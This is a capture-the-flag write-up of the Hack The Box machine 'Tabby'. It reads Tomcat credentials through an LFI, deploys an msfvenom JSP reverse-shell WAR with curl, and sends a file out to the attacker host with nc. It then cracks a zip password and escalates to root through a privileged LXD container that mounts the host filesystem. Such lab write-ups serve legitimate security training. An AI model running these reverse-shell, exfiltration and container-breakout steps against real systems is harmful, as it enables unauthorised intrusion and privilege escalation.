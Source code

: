 ```yaml
---
title: HTB - Tabby Write-up
author: bigb0ss
date: 2020-11-07 19:36:00 +0800
categories: [Hack The Box, Windows, Easy]
tags: [hackthebox, tabby, lfi, tomcat, zip2john, lxd, container]
---
```


![image](/assets/img/post/htb/tabby/01_infocard.png)

[ LFI ] [ Tomcat ] [ Zip2John ] [ LXD ] This was an easy difficulty box. It was pretty easy and straight-forward box. Good learning path to:
* LFI File Enumeration
* Tomcat JSP Script Exploit
* Password Protected .zip File Abuse
* LXD Container Breakout


## Initial Recon

### Nmap

Let’s begin with an initial port scan:

```console
$ nmap -Pn --open -p- -sC -sV 10.10.10.194

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Interesting Ports to Note

* HTTP (80/TCP) - Mega Hosting Web page. 

![image](/assets/img/post/htb/tabby/02_http.png)

* HTTP (8080/TCP) - Apache Tomcat Default Page.

![image](/assets/img/post/htb/tabby/03_8080.png)

> **NOTE**: I did perform a quick default login check against the manager login portal `/manager/html`, but no luck there. 


## Initial Foothold

### LFI (Mega Hosting Website)

By looking at the source code for the web page, we can discover the domain name `megahosting.htb`. Let’s add that into our `/etc/hosts` file. 

![image](/assets/img/post/htb/tabby/04_hosts.png)

And we can see that `http://megahosting.htb/news.php?file=` is vulnerable to LFI, and we can read arbitrary files within the system.

![image](/assets/img/post/htb/tabby/05_lfi.png)

Indeed, the `news.php` was badly written to be vulnerable to LFI. It simply takes the user supplied filename and opens it up. 

![image](/assets/img/post/htb/tabby/06_burp.png)

<b>tomcat</b>
Since we know that there is a Tomcat 9 server running on the port `8080`, we can leverage the LFI to find sensitive data such as `tomcat-users.xml`. The file was located at `/usr/share/tomcat9/etc/tomcat-users.xml` (The file wasn’t in a typical location, so I had to some trial-and-error and bruteforcing.) Within the file, we can see the credentials for the Tomcat Manager console.

```console
User: tomcat
Pass: $3cureP4s5w0rd123!
```

![image](/assets/img/post/htb/tabby/07_burp.png)

Although we have the right creds, when we try to access the `/manager/html` page, we get a 403 Access Denied.

![image](/assets/img/post/htb/tabby/08_accessdeni.png)

However, we can still deploy the `.war` file via `curl`. First, let’s make a reverse shell payload with `msfvenom`:

```console
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f war > bigb0ss.war
```

Then, using `curl`, deploy the payload:

```console
$ curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file bigb0ss.war 'http://10.10.10.194:8080/manager/text/deploy?path=/bigb0ss'

OK - Deployed application at context path [/bigb0ss]
```

Once deployed, by accessing the URL on a browser, we can trigger the payload to call back to our listener.

![image](/assets/img/post/htb/tabby/09_rce.png)


## Privilege Escalation

### tomcat —> ash

Further enumeration found that there is a directory called `/var/www/html/files` which is owned by the user `ash`.

![image](/assets/img/post/htb/tabby/10_ash.png)

Within the directory, there is an interesting `.zip` file.

![image](/assets/img/post/htb/tabby/11_ash.png)

And using the following `netcat` commands, we can download the `.zip` file to our Kali box:

```console
# Kali Box
$ nc -lvnp 80 > backup.zip

# Tabby Box
$ nc 10.10.14.3 80 < 16162020_backup.zip
```

![image](/assets/img/post/htb/tabby/12_ash.png)

<b>Zip Password Cracking</b>
So, the `.zip` file was protected with a password.

![image](/assets/img/post/htb/tabby/13_ash.png)

We can use `zip2john` and `john` to potentially crack the password. 

```console
# zip2john
$ zip2john backup.zip > bakcup-prep.zip

# John
$ john --wordlist=/usr/share/wordlists/rockyou.txt bakcup-prep.zip
```

And it cracked the password as `admin@it`

![image](/assets/img/post/htb/tabby/14_ash.png)

<b>user.txt</b>

The recovered password was indeed valid to unzip the file; however, there was nothing. Instead, that was a correct password for the `ash` user. We can now login as `ash` and read the `user.txt` flag.

![image](/assets/img/post/htb/tabby/15_ash.png)


### ash —> root (LXD Privilege Escalation)

From the above image, we can see that `ash` is member of the `LXD` group. It is a Linux Daemon (LXD) that is a lightweight container hypervisor. And there is a known privilege escalation path for a local user that is part of the `LXD` group to gain `root` access on the system. More details about the attack can be found [here] (https://www.hackingarticles.in/lxd-privilege-escalation/).

So the attack contains 2 step processes:

On the Kali Box:

```console
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ sudo bash build-alpine
```

Once it’s built, we will see the `.tar.gz` file.

![image](/assets/img/post/htb/tabby/16.png)

And let’s move the file to the Tabby box:

![image](/assets/img/post/htb/tabby/17.png)

![image](/assets/img/post/htb/tabby/18.png)

On the Tabby Box:

```console
# Initiating the LXD (*Answer things for default setting)
$ lxd init

# Import Image
$ lxc image import ./alpine-v3.12-x86_64-20201030_0034.tar.gz --alias bigb0ss

$ lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| bigb0ss | c57d8b79d13e | no     | alpine v3.12 (20201030_00:34) | x86_64       | CONTAINER | 3.07MB | Oct 30, 2020 at 4:58am (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+

$ lxc init bigb0ss priv -c security.privileged=true
$ lxc config device add priv mydevice disk source=/ path=/mnt/root recursive=true
$ lxc start priv
```

Once we started the `priv`, then, we can run the following command to escalate our privilege to `root` and read the `root.txt` flag.

```console
$ lxc exec priv /bin/sh

~ # ^[[51;5Rid
id
uid=0(root) gid=0(root)
~ # ^[[51;5Rcat /mnt/root/root/root.txt
cat /mnt/root/root/root.txt
b0d<REDACTED>d7c
```

Thanks for reading! 
